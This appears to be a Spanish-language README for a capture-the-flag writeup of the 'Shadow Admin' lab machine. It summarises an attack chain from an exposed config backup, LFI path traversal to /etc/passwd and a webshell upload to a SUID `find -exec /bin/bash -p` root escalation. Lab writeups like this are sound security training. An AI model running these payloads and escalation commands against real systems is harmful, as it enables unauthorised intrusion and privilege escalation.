

# Shadow Admin — Auditoría de seguridad y writeup

**Autor:** chifay
**Objetivo:** `172.17.0.2` · **Plataforma:** Whoami-Labs · **Dificultad:** Hard
**Resultado:** compromiso total (root) y flag capturada.

> Análisis de explotación realizado **solo por red**. No se consultó el daemon de Docker ni se accedió a los archivos del contenedor desde el host.

> **Nota de redacción.** Las credenciales aparecen como `[REDACTADO]` y la flag como `SHADOW{...}`. En las capturas, el contenido entre llaves está difuminado.

## Documento principal

- [`AUDITORIA_SHADOW_ADMIN.md`](AUDITORIA_SHADOW_ADMIN.md) — informe completo con resumen ejecutivo, hallazgos, cadena de ataque, capturas de terminal, flag, remediaciones y mapeo MITRE ATT&CK.

## Entregables

| Ruta | Contenido |
|---|---|
| `AUDITORIA_SHADOW_ADMIN.md` | Informe/writeup final |
| `captures_clean/` | Capturas sin secuencias ANSI/CR, base para los PNG y el texto |
| `capturas_png/` | Capturas de pantalla de terminal (Kali) y validación de la flag en la plataforma |
| `evidencias/` | Archivos obtenidos: `config.bak`, `/etc/passwd`, fuentes PHP, webshell, `sudo -l`, SUID, flag y hashes |
| `www/shell.php` | Webshell usado en la demostración |

## Cadena de ataque (resumen)

1. `GET /backups/` → directory listing.
2. `GET /backups/config.bak` → `admin:[REDACTADO]` y `APP_KEY`.
3. `GET /index.php?page=../../../../../../etc/passwd` → LFI y divulgación de código fuente.
4. `POST /profile.php` con credenciales reutilizadas → sesión de administración.
5. `POST /profile.php` multipart → `/var/www/html/shell.php` ejecutable → RCE como `admin`.
6. `sudo -n -l` + `find / -perm -4000` → sudo excesivo y SUID (`bash`, `find`, `watch`).
7. `find . -exec /bin/bash -p \; -quit` → `euid=0(root)` → `/root/flag.txt`.

## Flag

```text
SHADOW{...}
```



*Validación en la plataforma: “¡Conquistado! ShadowAdmin completado” (27m 18s).*

## Nota

Material exclusivamente educativo, generado en un laboratorio vulnerable y autorizado. No debe utilizarse contra sistemas sin autorización expresa.
